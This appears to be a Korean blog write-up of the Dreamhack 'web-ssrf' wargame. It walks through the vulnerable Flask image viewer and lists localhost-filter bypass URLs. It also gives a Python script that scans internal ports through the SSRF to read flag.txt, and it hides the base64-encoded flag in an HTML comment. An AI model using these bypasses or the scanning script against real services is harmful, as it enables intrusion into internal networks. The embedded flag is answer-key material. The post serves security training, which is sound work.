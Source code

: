 ```yaml
---
layout : single
title : "STAGE9. Server Side Request Forgery"
categories: Security
tag: [dreamhack, webhacking, wargame]
sidebar:
    nav: "docs"
---
```


# 드림핵 웹 ServerSide : Server Side Request Forgery (SSRF)

-  [x] 함께 실습 : web-ssrf

## 함께 실습 : web-ssrf

플래그는 /app/flag.txt 에 있다

### 웹 서비스 분석

#### /img_viewer

GET : img_viewer.html 렌더링

POST : 이용자가 입력한 url에 HTTP 요청을 보내고, 응답을 img_viewer.html의 인자로 렌더링

```python
@app.route("/img_viewer", methods=["GET", "POST"])
def img_viewer():
    if request.method == "GET":
        return render_template("img_viewer.html")
    elif request.method == "POST":
        url = request.form.get("url", "")
        urlp = urlparse(url)
        if url[0] == "/":
            url = "http://localhost:8000" + url
        elif ("localhost" in urlp.netloc) or ("127.0.0.1" in urlp.netloc):
            data = open("error.png", "rb").read()
            img = base64.b64encode(data).decode("utf8")
            return render_template("img_viewer.html", img=img)
        try:
            data = requests.get(url, timeout=3).content
            img = base64.b64encode(data).decode("utf8")
        except:
            data = open("error.png", "rb").read()
            img = base64.b64encode(data).decode("utf8")
        return render_template("img_viewer.html", img=img)
```

#### run_local_server 함수

파이썬의 기본 모듈인 http를 이용하여 127.0.0.1의 임의 포트에 HTTP 서버를 실행한다. http.server.HTTPServer의 두 번째 인자로 http.server.SimpleHttpRequestHandler을 전달하면, 현재 디렉토리를 기준으로 URL이 가리키는 리소스를 반환하는 웹 서버가 생성된다. 

```python
local_host = "127.0.0.1"
local_port = random.randint(1500, 1800)
local_server = http.server.HTTPServer(
    (local_host, local_port), http.server.SimpleHTTPRequestHandler
)

def run_local_server():
    local_server.serve_forever()

threading._start_new_thread(run_local_server, ())
```

### 취약점 분석 

```python
elif ("localhost" in urlp.netloc) or ("127.0.0.1" in urlp.netloc):
    data = open("error.png", "rb").read()
    img = base64.b64encode(data).decode("utf8")
    return render_template("img_viewer.html", img=img)
```

img_viewer는 위와 같은 방법으로 127.0.0.1 또는 localhost가 포함된 URL로의 접근을 막기에, 이를 우회하면 SSRF를 통한 내부 HTTP 서버 접근을 할 수 있다.

\* URL 필터링은 URL에 포한되면 안되는 문자열로 블랙리스트를 만들고, 이를 이용하여 이용자의 접근을 제어하는 블랙리스트 필터링과, 접근을 허용할 URL로 구성된 화이트리스트 외의 URL을 모두 차단하는 화이트리스트 필터링으로 나뉜다

### 익스플로잇

- 127.0.0.1과 매핑된 도메인 이름 사용 <br>임의의 도메인 이름을 구매하여 127.0.0.1과 연결하고, 그 이름을 url로 사용하거나, 이미 127.0.0.1에 매핑된 *.vcap.me 를 이용하여 접근할 수 있다

- 127.0.0.1의 alias 이용 <br>하나의 IP는 여러 방식으로 표기되는데, 127.0.0.1의 경우, 다음과 같은 방식으로 표기될 수 있다.

>>|How|Example|
|:---|:---|
|16진수로 변환|0x7f.0x00.0x00.0x01|
|16진수 변환에서 . 제거|0x7f000001|
|위 숫자를 10진수로 변환|2130706433|
|각 자리에서 0 생략|127.1 / 127.0.1|

- localhost의 alias 이용<br>호스트와 스키마는 대소문자를 구분하지 않으므로, localhost의 임의 문자를 대문자로 바꾸어도 같은 호스트를 의미한다

#### 필터링을 우회할 수 있는 로컬호스트의 URL

http://vcap.me:8000/

http://0x7f.0x00.0x00.0x01:8000/

http://0x7f000001:8000/

http://2130706433:8000/

http://Localhost:8000/

http://127.0.0.255:8000/

<!-- data:image/png;base64, REh7NDNkZDIxODkwNTY0NzVhN2YzYmQxMTQ1NmExN2FkNzF9 -->

#### 풀이

1) 아래와 같이 내부 HTTP 서버의 포트번호를 알아내는 코드를 작성 후 실행한다

```python
from flask import (
    Flask,
    request
)
import requests

for port in range(1500, 1800):
    res = requests.post('http://host3.dreamhack.games:10334/img_viewer', data={'url': 'http://Localhost:' + str(port)})
    print(port)
    if len(res.text) != 65121: # error.png의 res.text 길이 = 65121 바이트
        print('random port: ' + str(port))
        break
```

2) 다음과 같이 포트 번호의 정보를 얻는다

<img src = "/images/wargame/19.png"><br>

3) 포트 번호를 넣어 app/flag.txt 에 접근한다

<img src = "/images/wargame/17.png"><br>

4) 출력되는 img의 src가 바뀐 것을 볼 수 있는데, 다음 정보를 base64 디코더에 넣어 디코딩 하면 flag를 얻을 수 있다

<img src = "/images/wargame/18.png"><br>

### SSRF 공격을 막으려면 ?

화이트리스팅으로 강한 URL 필터링을 적용하거나, HTTP 요청을 하는 애플리케이션을 내부망과 분리하여 약점을 보완할 수 있다